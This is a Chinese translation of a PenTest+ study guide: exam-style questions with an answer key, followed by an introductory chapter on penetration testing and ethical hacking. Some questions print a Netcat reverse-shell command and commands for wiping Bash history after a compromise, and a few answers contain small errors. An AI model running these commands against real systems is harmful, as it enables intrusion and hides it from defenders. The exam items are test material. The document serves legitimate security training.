5. Renee 正在进行渗透测试，并发现她正在探索的一个系统已经被攻击者入侵的证据。在确认她的怀疑后，她应该立即采取什么行动？

   1. 在渗透测试报告中记录详细信息。
   2. 修复允许她获得访问权限的漏洞。
   3. 向客户报告潜在的入侵。
   4. 无需进一步行动，因为 Renee 的工作范围仅限于渗透测试。

6. 以下哪种漏洞扫描方法在扫描过程中能提供最准确的细节？

   1. 黑盒
   2. 经过身份验证
   3. 内部视图
   4. 外部视图

7. Annie 想要在入侵 Linux 系统后掩盖她的踪迹。如果她想要永久删除她输入到 Bash shell 的命令的证据，她应该使用以下哪个命令？

   1. `history ‐c`
   2. `kill ‐9 $$`
   3. `echo "" > /~/.bash_history`
   4. `ln /dev/null ~/.bash_history ‐sf`

8. Kaiden 想要在新系统投入生产之前对其进行自动化 Web 应用程序安全扫描。以下哪种工具最适合此任务？

   1. Nmap
   2. Nikto
   3. Wireshark
   4. CeWL

9. Steve 正在进行渗透测试，并且在没有主动扫描或以其他方式探测目标的情况下收集信息。他正在收集哪种类型的信息？

   1. OSINT
   2. HSI
   3. 背景
   4. 以上都不是

10. 以下哪项活动构成对完整性的违反？

    1. 系统被下线，导致业务收入损失。
    2. 敏感或专有信息被更改或删除。
    3. 受保护的信息被访问或外泄。
    4. 敏感的个人身份信息被访问或外泄。

11. Ted 想要使用 Nmap 扫描远程系统，并使用以下命令：

    ```
    nmap 149.89.80.0/24
    ```

    他将扫描多少个 TCP 端口？

    1. 256
    2. 1,000
    3. 1,024


## 4. 65,535

## 12. Brian 正在对其组织的 Web 服务器进行彻底的技术审查。他特别在寻找服务器过去可能被入侵的迹象。哪个术语最能描述此活动？

1. 渗透测试
2. 漏洞扫描
3. 修复
4. 威胁搜寻

## 13. Liam 在受损系统上执行以下命令：

```
nc 10.1.10.1 7337 -e /bin/sh
```

他做了什么？

1. 使用 Netcat 启动了反向 shell
2. 通过 Netcat 将以太网端口的流量捕获到控制台
3. 使用 Netcat 设置了绑定 shell
4. 以上都不是

## 14. Dan 试图使用 VLAN 跳跃将流量发送到他所在 VLAN 之外的 VLAN。以下图示显示了什么技术？


1. 双跳
2. 功率跳跃
3. 双标记
4. VLAN 压缩

## 15. Alaina 想要针对目标系统进行中间人攻击。她可以使用什么技术来让自己看起来拥有可信服务器的 IP 地址？

1. ARP 欺骗
2. IP 证明
3. DHCP 劫持
4. 欺骗大师

## 16. Michael 的社会工程攻击依赖于告诉他联系的工作人员，其他人已提供他请求的信息。他使用了什么动机技巧？

1. 权威
2. 稀缺
3. 相似性
4. 社会认同

## 17. Vincent 想要进入目标的工作站，但找不到进入大楼的方法。如果他也无法远程或通过网络在现场获得访问权限，他可以使用什么技术来做到这一点？

1. 偷窥
2. Kerberoasting
3. USB 钥匙投放
4. 以物易物

## 18. Jennifer 正在审查 Linux 系统目录中的文件，并看到一个具有以下属性的文件。她发现了什么？

```
-rwsr-xr—1 root kismet 653905 Nov 4 2016 /usr/bin/kismet_capture
```

1. 加密文件
2. 哈希文件
3. SUID 文件
4. SIP 文件

## 19. 以下哪种工具最适合查询由美国互联网号码注册管理机构（ARIN）等组织提供的数据，作为足迹分析或侦察练习的一部分？

1. Nmap
2. Traceroute
3. regmon
4. Whois

## 20. Chris 认为他已入侵的 Linux 系统是一台虚拟机。以下哪种技术无法提供关于系统是否为虚拟机的有用提示？

1. 运行 `system‐detect‐virt.`
2. 运行 `ls ‐l /dev/disk/by‐id.`
3. 运行 `wmic` baseboard 以获取制造商和产品。
4. 运行 `dmidecode` 以检索硬件信息。

## 评估测试答案

1. B. Web 应用程序通常会经历 SQL 注入、缓冲区溢出和跨站点脚本漏洞。虚拟机（VM）逃逸攻击针对虚拟化平台的 hypervisor，通常无法通过 Web 进行利用。您将在 第 5 章 和 第 9 章 中了解更多有关所有这些漏洞的信息。

2. B. 保密协议（NDA）是一项法律协议，旨在保护客户的数据以及渗透测试人员在测试过程中可能遇到的其他信息的机密性。SOW 是工作说明书，定义了项目期间将完成的工作内容；MSA 是主服务协议，设定了两个组织之间的总体条款（随后使用 SOW 来描述实际工作）；而竞业禁止协议就是防止竞争，通常是通过防止员工在当前工作结束后的一段时间内为竞争对手工作。您将在 第 2 章 中了解更多有关渗透测试中涉及的法律文件的信息。

3. A. 开放 Web 应用程序安全项目（OWASP）的 Zed Attack Proxy（ZAP）是一个拦截代理，在渗透测试中非常有用。Nessus 是一个漏洞扫描器，您将在 第 4 章 中了解更多信息。SonarQube 是一种静态而非动态的软件测试工具，OllyDbg 是一个调试器。您将在 第 9 章 中了解更多有关这些工具的信息。

4. B. `.sh` 文件扩展名通常用于 Bash 脚本。PowerShell 脚本通常具有 `.ps1` 扩展名。Ruby 脚本使用 `.rb` 扩展名，Python 脚本以 `.py` 结尾。您将在 第 11 章 中了解更多有关这些语言的信息。

5. C. 当渗透测试人员发现正在进行或过去发生的入侵指标时，应立即通知管理层，并建议组织启动其网络安全事件响应流程。您将在 第 12 章 中了解更多有关报告和沟通的信息。

6. B. 经过身份验证的（凭证）扫描提供了系统的最详细视图。黑盒评估假设对系统一无所知，并且不会在系统上拥有凭证或代理。内部视图通常比外部视图提供更多细节，但两者都无法提供凭证所能允许的同样详细程度。您将在 第 4 章 中了解更多有关经过身份验证的扫描的信息。

7. D. 虽然所有这些命令都有助于掩盖她的踪迹，但只有将 `/dev/null` 链接到 `.bash_history` 才能防止 Bash 历史记录文件包含任何内容。第 6 章 和 第 10 章 介绍了攻破主机和隐藏踪迹。

8. B. 在参加 PenTest+ 考试时，了解各种渗透测试工具的用途和目的非常重要。Nikto 是最能满足 Kaiden 需求的工具，因为它是专门的 Web 应用程序扫描工具。Nmap 是端口扫描器，Wireshark 是数据包分析工具。自定义单词列表生成器（CeWL）用于爬取网站关键字。后三种工具都不执行 Web 应用程序安全测试。您将在 第 4 章 中了解更多有关 Nikto 的信息。

9. A. OSINT，即开源情报，是可以被动收集的信息。被动信息收集很有用，因为它通常对目标不可见，并可以提供关于系统、网络以及指导渗透测试主动部分的细节的宝贵信息。第 3 章 更详细地介绍了 OSINT。

10. B. 完整性违规涉及数据被修改或删除。当系统被脱机时，这是可用性问题；受保护信息被访问可能被归类为专有信息泄露；敏感个人身份信息访问通常被归类为隐私泄露。您将在 第 1 章 中了解更多有关安全三大目标——机密性、完整性和可用性的信息。

11. B. 默认情况下，Nmap 会扫描 TCP 和 UDP 的 1,000 个最常用端口。第 3 章 介绍了 Nmap 和端口扫描，包括 Nmap 默认执行的操作及其方式。

12. D. 威胁搜寻利用攻击者思维来搜索组织的技术基础设施，寻找成功攻击的痕迹。威胁猎人会问自己黑客可能会做什么，以及他们可能会留下什么类型的证据，然后去寻找这些证据。Brian 的活动明显符合此定义。您将在 第 1 章 中了解更多有关威胁搜寻的信息。

13. A. Liam 已使用 Netcat 设置了反向 shell。这将连接到 10.1.10.1 的 7337 端口，并将其连接到 Bash shell。第 6 章 和 第 10 章 提供了在攻破系统后设置远程访问的信息。


14. C. 这是一个针对 802.1q 接口使用的双标签攻击示例。第一个标签将被剥离，从而允许将第二个标签读取为数据包的 VLAN 标签。双重跳跃可能对视频游戏玩家有帮助，但另外两个答案是为此问题编造的。第 7 章深入探讨了网络漏洞和利用。

15. A. ARP 欺骗攻击依赖于比实际目标更快地响应系统的 ARP 查询，从而允许攻击者提供虚假信息。一旦被接受，攻击者的系统就可以进行中间人攻击。第 7 章探讨了中间人攻击、方法和用途。

16. D. 依赖于社会认同的社会工程攻击依赖于说服目标，让其他人也表现出类似行为。相似性可能听起来相似，但它依赖于建立信任，然后说服目标他们与渗透测试人员有共同之处。第 8 章介绍了社会工程学以及如何利用人类行为。

17. C. USB 钥匙投放是一种物理蜜罐，可用于诱使目标组织的员工捡起并访问分发到他们可能发现的地方的 USB 驱动器。通常，驱动器上会放置一个或多个诱人但隐藏了渗透测试工具的文件，这些工具在访问后会安装木马或远程访问工具。第 8 章还介绍了物理安全攻击，包括钥匙投放等技术。

18. C. 文件属性中的 `s` 表示这是一个 SETUID 或 SUID 文件，允许它以其所有者的身份运行。第 10 章讨论了 Linux 中的漏洞，包括如何利用易受攻击的 SUID 文件。

19. D. 最好通过区域互联网注册机构（如 ARIN）的网站或使用 Whois 等工具进行查询。Nmap 是一个有用的端口扫描实用程序，traceroute 用于测试数据包到达远程系统所经过的路径，regmon 是一个已过时的 Windows 注册表工具，已被 Process Monitor 取代。你将在 第 3 章中了解更多关于 OSINT 的内容。

20. C. 所有这些命令都是判断系统是否虚拟化的有用方法，但 `wmic` 是 Windows 工具。你将在 第 10 章中了解 VM 逃逸和检测。

WileyPRE

# 第 1 章

渗透测试

黑客使用各种各样的工具来未经授权地访问系统、网络和信息。自动化工具，包括网络扫描仪、软件调试器、密码破解工具、利用框架和恶意软件，在攻击者的工具包中确实发挥着重要作用。防御攻击的网络安全专业人员也应该能够使用相同的工具，以便识别攻击者可能利用的自身防御中的弱点。

然而，这些自动化工具并不是黑客可用的最重要的工具。攻击者使用的最重要的工具是网络安全专业人员无法下载或购买的东西。它是人类思维的力量和创造力。熟练的攻击者在试图击败网络安全防御时会利用相当多的自动化工具，但他们能力的真正考验在于他们能够多好地综合这些工具提供的信息，并定位组织网络安全防御中的潜在弱点。

## 什么是渗透测试？

渗透测试旨在弥合使用技术工具测试组织安全性与这些工具在熟练且坚定的攻击者手中所发挥的威力之间的差距。渗透测试是授权的、合法的尝试，旨在击败组织的安全控制并执行未经授权的活动。这些测试耗时且需要与现实世界中试图攻破组织的攻击者一样熟练和坚定的工作人员。然而，它们也是组织全面了解其安全漏洞的最有效方式。

# 网络安全目标

网络安全专业人员使用一个广为人知的模型来描述信息安全的目标。CIA 三元组（如 图 1.1 所示）包括网络安全计划寻求保护的信息的三个主要特征：

*   机密性措施旨在防止未经授权访问信息或系统。

*   完整性措施旨在防止未经授权修改信息或系统。

*   可用性措施旨在确保合法使用信息和系统仍然可行。



图 1.1 CIA 三元组

攻击者，因此渗透测试人员，试图破坏这些目标，并实现他们自己的三个相应目标。攻击者的目标被称为 DAD 三元组，如 图 1.2 所示：

*   泄露攻击旨在未经授权访问信息或系统。

*   篡改攻击旨在对信息或系统进行未经授权的更改。

*   拒绝攻击旨在防止合法使用信息和系统。



图 1.2 DAD 三元组

这两个模型，CIA 和 DAD 三元组，是网络安全的基石。如 图 1.2 所示，两个模型的元素直接相关，攻击者 DAD 三元组的每个腿都直接对应于旨在抵御这些攻击的 CIA 三元组的一个腿。机密性控制旨在防止泄露攻击。完整性控制旨在防止篡改攻击。可用性控制旨在保持系统运行，防止拒绝攻击。

### 采用黑客思维

如果你从事网络安全工作已有一段时间，你可能对 CIA 三元组的要素非常熟悉。网络安全防御者大部分时间都在以这些术语思考，设计控制和防御措施，以保护信息和系统免受各种已知和未知威胁的影响。

渗透测试人员必须在思考上采取非常不同的方法。他们不需要试图防御所有可能的威胁，只需要找到一个可能利用的漏洞来实现他们的目标。为了找到这些缺陷，他们必须像现实世界中可能攻击系统的对手一样思考。这种方法通常被称为采用黑客思维。

在从技术系统方面探索黑客思维之前，让我们先用物理世界的一个例子来探索它。如果你负责一家电子产品商店的物理安全，你可能会考虑各种威胁，并实施旨在抵御这些威胁的控制措施。你会担心扒窃、抢劫和员工贪污等威胁，你可能会构建一套旨在防止这些威胁发生的安全控制系统。这些控制措施可能包括以下项目：

*   高风险区域的安全摄像头

*   收银机收据审计

*   商店主入口/出口处的防盗探测器

*   紧急出口上的出口报警器

*   连接到检测营业时间外门开启的防盗报警器

现在，想象你受聘对这家商店进行安全评估。你可能会检查每一个安全控制措施，并评估其防止初始风险评估中识别的每个威胁的能力。你还会寻找现有安全控制措施中可能需要补充的漏洞。你的任务范围广泛且层次较高。


# 渗透测试与黑客思维

另一方面，渗透测试的任务更加集中。你不再采取安全专业人员的方法，而是采取攻击者的思维方式。你不需要评估每个安全控制措施的有效性。你只需要找出现有控制措施中的一个缺陷，或者在规划这些控制措施时被忽略的一个场景即可。

在此示例中，渗透测试人员可能会在营业时间进入商店并进行侦察，收集已有安全控制措施以及关键商品位置的信息。他们可能会注意到，虽然防盗报警系统与门相连，但窗户上没有任何传感器。测试人员随后可能会在深夜返回，砸碎一扇窗户，抢走贵重商品。意识到商店安装了安全摄像头，攻击者可能会戴上口罩，并将车辆停在摄像头覆盖范围之外。这就是黑客思维。你需要像罪犯一样思考。

黑客思维有一个重要的推论，攻击者和防御者都应牢记。在进行渗透测试（或现实世界攻击）时，攻击者只需要成功一次即可。他们可能会对目标发动数百或数千次潜在攻击。如果组织的安全防御拦截了 99.99% 的攻击，但其中一次攻击成功，那么这一事实就无关紧要了。网络安全专业人员需要每次都成功。攻击者只需要成功一次。

## 道德黑客

虽然渗透测试人员当然必须能够采用黑客思维，但他们必须以体现自身专业性和正直的方式这样做。道德黑客是指使用黑客工具和技术，但必须在一套规范活动的道德准则范围内进行。道德黑客计划的关键组成部分包括：

*   对渗透测试团队所有成员进行背景调查，以识别和解决任何潜在问题

*   遵守渗透测试项目的定义范围

*   在渗透测试过程中立即报告检测到的任何活跃安全漏洞或犯罪活动

*   将渗透测试工具的使用限制在批准的项目中

*   根据项目范围限制渗透测试的侵入性

*   保护渗透测试过程中涉及或发现的数据和信息的机密性

从事超出道德黑客范围的渗透测试工作的网络安全专业人员，可能会根据违规性质面临罚款、处罚，甚至刑事指控。

## 渗透测试的原因

现代组织在各种安全控制措施和活动上投入了大量时间、精力和资金。我们安装防火墙、入侵防御系统、安全信息和事件管理设备、漏洞扫描器以及许多其他工具。我们配备并人员配置 24 小时安全运营中心（SOC）来监控这些技术，并监视我们的系统、网络和应用程序是否有被攻破的迹象。工作量足以让我们每天加倍忙碌。我们为什么要承担进行渗透测试的额外负担呢？毕竟，内部进行渗透测试耗时，外包又昂贵。

这个问题的答案是，渗透测试能让我们了解组织的安全态势，而这种了解无法通过其他方式获得。渗透测试并不旨在取代组织的所有其他网络安全活动。相反，它补充并建立在这些努力的基础上。渗透测试人员将其独特的技能和视角带到桌面上，可以将安全工具的输出放在攻击者的思维模式下，并提出问题：“如果我是攻击者，我如何利用这些信息来为自己谋利？”

### 渗透测试的好处

我们已经讨论了渗透测试人员如何从高层次开展工作，本书的其余部分专门探讨渗透测试工具和技术的细节。在深入探讨之前，让我们花点时间考虑一下我们为什么要进行渗透测试。它给组织带来了哪些好处？

首先，也是最重要的是，渗透测试为我们提供了无法从其他地方获得的知识。通过进行彻底的渗透测试，我们了解拥有与测试人员相同的知识、技能和信息的攻击者是否可能攻破我们的防御。如果他们无法立足，我们就可以相当有信心地认为，在当前情况下，我们的网络能够抵御同样有才华的攻击者的攻击。

其次，如果攻击者成功，渗透测试为我们提供了一个重要的修复蓝图。作为网络安全专业人员，我们可以追踪测试人员在攻击不同阶段的行动，并关闭他们经过的一系列开放的门户。这样做可以为我们提供更强大的防御，以应对未来的攻击。

最后，渗透测试可以为我们提供关于特定攻击目标的基本、集中的信息。我们可能会在部署新系统之前进行渗透测试，该测试专门针对新环境的安全功能进行测试。与性质广泛的开放式渗透测试不同，集中式测试可以深入针对特定目标的防御，并提供可操作的洞察，防止漏洞在初次暴露时被利用。

### 渗透测试的法规要求

进行渗透测试的最后一个原因是——你必须这样做！渗透测试最常见的法规要求来自支付卡行业数据安全标准（PCI DSS）。该法规是一项私人合同义务，约束所有涉及信用卡和借记卡交易存储、处理或传输的组织。在关于持卡人数据环境（CDE）的 100 多页详细安全要求中，隐藏着第 11.3 节，内容如下：

> 实施一种渗透测试方法，包括以下内容：
>
> *   基于行业公认的渗透测试方法（例如，NIST SP800-115）
> *   包括对整个 CDE 边界和关键系统的覆盖
> *   包括从网络内部和外部进行的测试
> *   包括验证任何分段和范围缩减控制的测试
> *   定义应用层渗透测试，至少包括要求 6.5 中列出的漏洞
> *   定义网络层渗透测试，包括支持网络功能的组件以及操作系统
> *   包括对过去 12 个月内经历的威胁和漏洞的审查和考虑
> *   指定保留渗透测试结果和修复活动结果
>
> 来源：支付卡行业数据安全标准版本 3.2

PCI DSS 的这一部分为任何进行渗透测试的人提供了一套有用的要求。它也是渗透测试的一个很好的蓝图，即使对于没有 PCI DSS 合规义务的组织也是如此。

该标准还包括四项额外要求，描述了渗透测试的频率和范围：

> 11.3.1. 至少每年进行一次外部渗透测试，并在任何重大基础设施或应用程序升级或修改后进行（例如操作系统升级、向环境中添加子网络或向环境中添加 Web 服务器）。


> 11.3.2 至少每年一次以及在任何重大基础设施或应用程序升级或修改后执行 `internal` 渗透测试（例如操作系统升级、向环境中添加子网络或向环境中添加 Web 服务器）。

> 11.3.3. 渗透测试中发现的可利用漏洞已得到纠正，并重复测试以验证纠正情况。

> 11.3.4 如果使用分段来隔离 CDE 与其他网络，则至少每年一次以及在对分段控制/方法进行任何更改后执行渗透测试，以验证分段方法是否运行正常且有效，并将所有超出范围的系统与 CDE 中的系统隔离开来。

同样，尽管这些要求仅对受 PCI DSS 约束的组织具有强制性，但它们为任何试图规划自身渗透测试频率和范围的组织提供了一个极佳的框架。我们将在 第 2 章 “规划和界定渗透测试范围”中更详细地介绍渗透测试的合规性要求。

## 谁来执行渗透测试？

渗透测试是一项高度专业化的学科，组织通常会尽量让经验丰富的渗透测试人员参与其测试工作。鉴于你正在阅读本书并准备参加 PenTest+ 认证，你很可能已经理解并认识到这一点。

如果你没有进行渗透测试的经验，那并不意味着一切希望都破灭了。你可能能够在经验丰富的渗透测试人员的指导下参与测试，或者你可能能够在组织内开展渗透测试，仅仅是因为没有经验丰富的人员可用来执行测试。

渗透测试可以由内部团队（由被测试组织的网络安全员工组成）或外部团队（由承包商组成）来执行。

### 内部渗透测试团队

内部渗透测试团队由组织内部的网络安全专业人员组成，他们对组织的系统和应用程序进行渗透测试。这些团队可能全职专注于渗透测试，也可能定期召集以兼职方式进行测试。

使用内部团队进行渗透测试有两大好处。首先，他们对组织有情境知识，可以通过提供增强的主题专业知识来提高测试的有效性。其次，使用内部员工进行测试通常比聘请渗透测试公司成本更低，前提是你有足够的工作量让内部团队保持忙碌！

使用内部团队进行渗透测试的主要缺点源于你使用的是内部员工。这些人员可能参与设计和实施了他们正在测试的安全控制措施，这可能会引入有意或无意的偏见，倾向于证明这些控制措施是安全的。同样，由于他们参与了控制措施的设计，他们可能更难发现潜在的缺陷，而这些缺陷可能为攻击者提供立足点。

如果你确实选择使用内部渗透测试团队，重要的是要认识到团队成员可能会因缺乏独立性而受到限制。如果可能，渗透测试团队应在组织上与设计和运行控制措施的网络安全团队分开。但是，由于人员配置限制，这通常在大型组织之外是不可能实现的。

### 外部渗透测试团队

外部渗透测试团队是专门为执行渗透测试而聘请的。他们可能来自一般的网络安全咨询公司，也可能来自专门从事渗透测试的公司。这些人员通常非常擅长进行渗透测试，因为他们每天都在执行这些测试。当你聘请专业的渗透测试团队时，你通常会受益于使用非常有才华的攻击者。

外部渗透测试团队通常也比内部团队带来更高程度的独立性。但是，使用外部团队的组织仍应了解测试人员可能存在的任何潜在利益冲突。聘请帮助你设计和实施安全控制措施的网络安全顾问来对这些控制措施进行独立测试可能不是个好主意。他们可能会倾向于认为他们提供的任何负面报告都是对其自身工作质量的反映。

### 选择渗透测试团队

渗透测试不是一次性的过程。组织可能希望要求对新系统在部署时进行渗透测试，但重要的是要定期重复这些测试，原因有三。

首先，技术环境在不断变化。系统会被重新配置，会应用补丁，会定期进行更新和调整。单独考虑，这些变化中的每一项可能对环境只有轻微影响，可能达不到触发“重大变更”渗透测试的阈值，但集体起来，它们可能会改变环境的安全态势。定期渗透测试很有可能检测出由这些环境变化引入的安全问题。

其次，攻击技术也会随时间演变，更新的渗透测试应反映不断变化的攻击技术。今天开发和测试的系统可能获得一份健康报告，但两年后测试的完全相同的系统可能容易受到在初始测试时尚未知晓的攻击技术的攻击。

最后，每个团队成员都带来了一组独特的技能、才能和经验。不同的团队成员可能以不同的方式进行测试，而以不同方式进行后续测试的团队可能会发现初始团队未注意到的漏洞。为了最大限度地提高发现这些问题的机会，你在选择渗透测试团队成员时应谨慎。尽可能轮换团队成员，让他们测试从未测试过的系统、环境和应用程序，这有助于为每一轮渗透测试带来新的视角。

# CompTIA 渗透测试流程

CompTIA PenTest+ 课程将渗透测试过程分为四个阶段，如 图 1.3 所示。


图 1.3 CompTIA 渗透测试阶段

此过程捕捉了进行渗透测试所涉及的主要活动，并将是我们在本书余下部分组织内容的方式。

### 规划和界定范围

军中有一句在网络安全领域广为流传的格言：“事前周密规划，防止表现不佳！”虽然这种情感几乎适用于任何行业，但对于渗透测试尤其重要。测试人员及其客户必须清楚了解渗透测试期间将发生什么，制定明确的交战规则，并决定哪些系统、数据、流程和活动在测试的授权范围内。渗透测试与黑客攻击之间有一条微妙的界限，一份包含渗透测试活动明确授权的书面工作声明对于确保测试人员遵守法律并满足客户期望至关重要。

我们将在 第 2 章 中详细介绍此主题。具体来说，你将学习如何实现该领域的三个目标：

*   比较和对比治理、风险和合规性概念。


解释范围划分以及组织/客户要求的重要性。

给定场景，通过保持专业性和诚信来展示道德黑客思维。

### 信息收集与漏洞扫描

一旦渗透测试团队有了明确定义的范围并获得继续工作的授权，他们就会进入侦察阶段。在此期间，他们会尽可能多地收集目标环境的信息，并执行旨在识别该环境中漏洞的测试。

这一信息收集过程对渗透测试的其余部分至关重要，因为在此阶段识别的漏洞为测试的其余部分提供了路线图，突出了组织安全链中的薄弱环节以及攻击者的潜在入侵路径。

我们在本书的四个章节中介绍信息收集和漏洞扫描。在 第 3 章，“信息收集”中，你将了解开源情报的使用以及 `Nmap` 扫描工具。在 第 4 章，“漏洞扫描”中，我们开始深入探讨漏洞扫描，这可能是渗透测试人员可用的最重要的信息收集工具。第 4 章介绍了测试人员如何设计和执行漏洞扫描。在 第 5 章，“分析漏洞扫描”中，我们进入漏洞报告的分析及其在渗透测试过程中的应用。最后，在 第 6 章，“利用与横向移动”中，我们讨论如何应用扫描期间学到的信息并利用漏洞。这些章节共同涵盖了该领域的四个目标：

*   给定场景，执行被动侦察。

*   给定场景，执行主动侦察。

*   给定场景，分析侦察练习的结果。

*   给定场景，执行漏洞扫描。

### 攻击与利用

在制定明确的测试计划并进行侦察活动后，渗透测试人员终于有机会进入我们大多数人认为的“有趣的部分”了！是时候戴上白帽子，尝试利用侦察期间发现的漏洞，尽可能深入地渗透组织的网络，同时遵守交战规则中设定的界限。

渗透测试期间使用的具体攻击技术将根据环境的性质和客户同意的范围而有所不同，但大多数测试中都会使用一些常见技术。本书的一半篇幅致力于详细探讨这些主题。

在 第 6 章，“利用与横向移动”中，你将了解攻击者如何在网络上立足，然后尝试利用最初的突破口获取尽可能多的访问权限。第 7 章，“利用网络漏洞”，深入探讨针对网络设备和协议的攻击技术。第 9 章，“利用应用程序漏洞”，是关于软件攻击的，而 第 10 章，“攻击主机、云技术和专用系统”，则考察服务器和端点上的问题。第 8 章，“利用物理和社会漏洞”，提醒我们许多漏洞根本不是技术性的，而渗透测试如果能够进入设施或妥协组织工作人员，可能比通过网络发起的攻击更加危险。

这些章节合起来涵盖了该领域的七个目标：

*   给定场景，研究攻击向量并执行网络攻击。

*   给定场景，研究攻击向量并执行无线攻击。

*   给定场景，研究攻击向量并执行基于应用程序的攻击。

*   给定场景，研究攻击向量并执行针对云技术的攻击。

*   解释针对专用系统的常见攻击和漏洞。

*   给定场景，执行社会工程学或物理攻击。

*   给定场景，执行利用后技术。

### 报告与沟通

一旦攻击和利用阶段的魅力和兴奋感过去，渗透测试团队的工作还未完成。成功渗透测试的关键要求是，它要向客户提供关于其信息技术环境安全性的有用信息。这应以清晰、可操作的建议形式出现，用于实施新的安全控制并增强现有控制。

第 11 章，“报告与沟通”，解释了与客户共享渗透测试结果的最佳实践。具体来说，它涵盖了该领域的四个目标：

*   比较和对比书面报告的重要组成部分。

*   给定场景，分析调查结果并在报告中推荐适当的补救措施。

*   解释渗透测试过程中沟通的重要性。

*   解释报告交付后的活动。

### 工具与代码分析

第 12 章，“渗透测试脚本编写”，涵盖了一个对渗透测试人员极其重要的主题：应用编码技能来自动化渗透测试的各个方面。虽然本章不会让你成为软件开发人员，但它将向你介绍用 `Bash`、`Python`、`Ruby` 和 `PowerShell` 编写的基本渗透测试脚本的分析。本章涵盖了领域 5 的两个目标：

*   解释脚本编写和软件开发的基本概念。

*   给定场景，分析脚本或代码示例以用于渗透测试。

# 网络杀伤链

前几节中描述的 CompTIA 渗透测试模型是渗透测试人员组织其活动的重要方式。还有一个同样重要的对应模型，描述了复杂攻击者通常如何组织其工作：网络杀伤链模型。这种由洛克希德·马丁公司开创的方法，包含在 图 1.4 中所示的七个阶段。



FIGURE 1.4 The Cyber Kill Chain model ¶ Source: Lockheed Martin

寻求采用黑客思维的网络安全专业人员只有了解攻击者如何计划和组织其工作，才能做到这一点。网络杀伤链提供了这种模型。当你试图将其与 CompTIA 流程协调时，你可以选择将其视为将信息收集和漏洞扫描以及攻击和利用阶段扩展为七个更详细的步骤，如 图 1.5 所示。

切斯利·“萨利”·萨伦伯格上尉最近就他 2009 年 1 月在纽约哈德逊河上英勇迫降美国航空 1549 航班发表了一次演讲。除了是一名杰出的飞行员外，萨利还是航空安全领域的知名专家。他演讲的一个部分特别引起了这位作者的共鸣，并让他想起了网络杀伤链。在描述航空事故原因时，萨利说：“事故不是由单一故障引起的。它们是由一系列意外事件引起的。”

